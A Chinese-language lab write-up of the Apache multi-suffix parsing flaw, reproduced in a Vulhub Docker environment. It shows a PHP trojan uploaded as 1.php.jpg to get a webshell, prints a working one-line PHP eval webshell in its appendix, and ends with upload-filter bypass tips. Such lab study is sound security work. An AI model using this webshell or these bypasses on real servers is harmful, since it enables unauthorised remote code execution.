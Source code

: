 # 一、概述
* 什么是多后缀解析漏洞，简而言之就是，客户端提交的文件名后缀名可能是`xxx.php.jpg`但是一样会解析成`php`，一个文件名拥有多个后缀，但是攻击者可以利用后缀解析错误，达到想要上传的文件类型。
* 例如：以下配置文件：其给.html后缀增加了`text/html`，给.cn后缀增加了`zh-CN`。此时如果用户了请求文件为`index.cn.html`,他将会返回一个中文的html页面
```
AddType text/html .html
AddLanguage zh-CN .cn
```
* 在以上特性上，如果服务提供者给`.php`后缀增加了处理器，例如在下面的配置中增加了.php的处理，那么在有多个后缀的情况下，只有有一个文件含有`.php`的后缀的文件都将会被识别为PHP文件，即使你的文件是多个后缀，都没有用，PHP依然执行，攻击者往往可以利用这样一个漏洞实现绕过上传白名单的解析漏洞
```
AddHandler application/x-httpd-php .php
```

# 二、影响版本
* 所有版本，因为这些都是配置上的错误导致的漏洞

# 三、靶场复现
* 这是我使用的是`Vulhub`线下靶场进行的复现
```
root@wq:/home/wq/vulhub-master/httpd/apache_parsing_vulnerability# ls
1.png  2.png  conf  docker-compose.yml  README.md  start.sh  www
root@wq:/home/wq/vulhub-master/httpd/apache_parsing_vulnerability# pwd
/home/wq/vulhub-master/httpd/apache_parsing_vulnerability
root@wq:/home/wq/vulhub-master/httpd/apache_parsing_vulnerability# docker-compose up -d
root@wq:/home/wq/vulhub-master/httpd/apache_parsing_vulnerability# docker ps
CONTAINER ID   IMAGE        COMMAND                  CREATED          STATUS          PORTS                               NAMES
b70540373943   php:apache   "docker-php-entrypoi…"   30 seconds ago   Up 29 seconds   0.0.0.0:80->80/tcp, :::80->80/tcp   apache_parsing_vulnerability_apache_1
root@wq:/home/wq/vulhub-master/httpd/apache_parsing_vulnerability# 
```
* 靶场环境验证
* 访问：`http://192.168.10.134:80/`,访问成功
![图 15](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-170144486.png)  

# 四、漏洞复现
* 发现漏洞过程：
    * 中间件类型：`apache`版本为：2.4.49
    ![图 14](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-170129842.png)  
    * 开启`BP`进行抓包
    ![图 16](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-170252587.png)  
    * 选择一个文件类型尝试上传，观察效果
    ![图 17](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-170416337.png)  
    ![图 18](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-170522394.png) 
    * 因为txt文件格式上传失败了，这是就猜测可以做了一些过滤，或者需要指定一个文件类型进行上传，现在假设我们在登录后，需要上传一个图标表示自己的用户图面，可能是要求是一个`jpg`格式的文件，在这种场景下我们去上传一个`.jpg`的文件 
    ![图 19](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-171351683.png)
    * 虽然可以上传jpg或者png的格式文件，但是实际上我想要的是可以上传一个php的脚本文件，用来拿到`webshell`，所以想到既然`JPG`的格式文件可以上传成功，但是apache可能也存在`php`的解析问题，此时我利用文件名，多后缀名的方式进行上传php木马文件进行测试。将文件名改成`1.php.jpg`并将文件内容改为：php木马，再次进行上传进行测试
    ![图 21](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-171946947.png) 
    * 常使用中国蚁剑开始进行`WebShell获取`，发现成功获取`WebShell`
    ![图 22](.images/%E5%A4%9A%E5%90%8E%E7%BC%80%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/IMG_20220116-172805987.png)  

# 五、附录
* PHP一句话木马
``` PHP
<?php
    $a=$_POST['H'];
    eval("$a");
?>  
```

# 总结：
* 当我们已经找到了上传点时，就需要考虑如何可以将自己的木马文件进行上传，这里在看到apache版本比较低的时候，我们也要去联想到可以使用换行解析错误的原理，进行尝试插入字节`0a`当然，若果绕不过文件过滤这是再考虑其他的方式，例如这一次的后缀名解析错误
* 对于这种绕过的方式：换行符解析错误、后缀名解析错误进行绕过校验


